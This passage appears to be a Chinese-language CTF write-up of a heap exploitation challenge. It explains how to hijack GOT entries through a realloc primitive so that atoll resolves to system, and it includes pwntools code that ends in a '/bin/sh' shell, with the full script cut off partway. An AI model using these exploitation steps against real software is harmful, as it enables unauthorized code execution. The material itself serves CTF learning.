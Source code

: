 ### 攻击！

目标是 get shell，由于之前已经有了指向GOT的指针（栏位1中），所以我们想办法利用realloc中最后的那个read_input函数来再次修改GOT。
但由于realloc在中间会调用realloc（废话），直接让他realloc一个GOT中的区块大概率是要出问题的，而且程序会往realloc的返回值中读入数据。因此我们需要想一个办法让realloc调用返回之后，rax是GOT中区块的地址。

静态分析一波，并没有发现什么 `mov rax, rdi; ret;` 的gadget，难道我的方法走不下去了吗？于是动态分析一波，惊喜地发现 **程序在调用realloc之前，rax中就已经是GOT中区块地地址了**，令人不得不感叹 ~~大自然~~ 出题人的鬼斧神工。

所以就有了上面把realloc覆盖为一个简单的 `ret` 。这样一来，在执行了下面几句代码后，atoll就会变成system的地址（**注意注释**，很重要）：

```python
io.recvuntil(b"choice: ")
io.sendline(b"2")
io.recvuntil(b"Index:")
io.sendline(b'\0')          # now atoll is puts, so puts("\0") = 1
io.recvuntil(b"Size:")
io.sendline(b"1111111\0")   # now atoll is puts, so puts("1111111\0") = 8
# we have hijacked realloc to 'ret', and when call realloc, rax has been same as rdi (which is really coincident)
# so program just pass and execute read_input(heap[v1], size)
io.sendline(pack(libc_base+libc.symbols["system"]))
```

最后，我们随便触发一个read_long，输入/bin/sh，就可以成功 get shell！当然，也可以直接输入 `cat ~/flag`，如果您需要节省时间的话。

```python
io.recvuntil(b"choice: ")
io.sendline(b"1")
io.recvuntil(b"Index:")
io.sendline(b"/bin/sh\0")
```

### 完整脚本

```python
def alloc(id, size, data):
    io.recvuntil(b"choice: ")
    io.sendline(b"1")
    io.recvuntil(b"Index:")
    io.sendline(str(id).encode("ascii"))
    io.recvuntil(b"Size:")
    io.sendline(str(size).encode("ascii"))
    io.recvuntil(b"Data:")
    io.send(data)

def realloc(id, size, data):
    io.recvuntil(b"choice: ")
    io.sendline(b"2")
    io.recvuntil(b"Index:")
    io.sendline(str(id).encode("ascii"))
    io.recvuntil(b"Size:")
    io.sendline(str(size).encode("ascii"))
    io.recvuntil(b"Data:")
    io.send(data)

def realloc_free(id):
    io.recvuntil(b"choice: ")
    io.sendline(b"2")
    io.recvuntil(b"Index:")
    io.sendline(str(id).encode("ascii"))
    io.recvuntil(b"Size:")
    io.sendline(b"0")

def free(id):
    io.recvuntil(b"choice: ")
    io.sendline(b"3")
```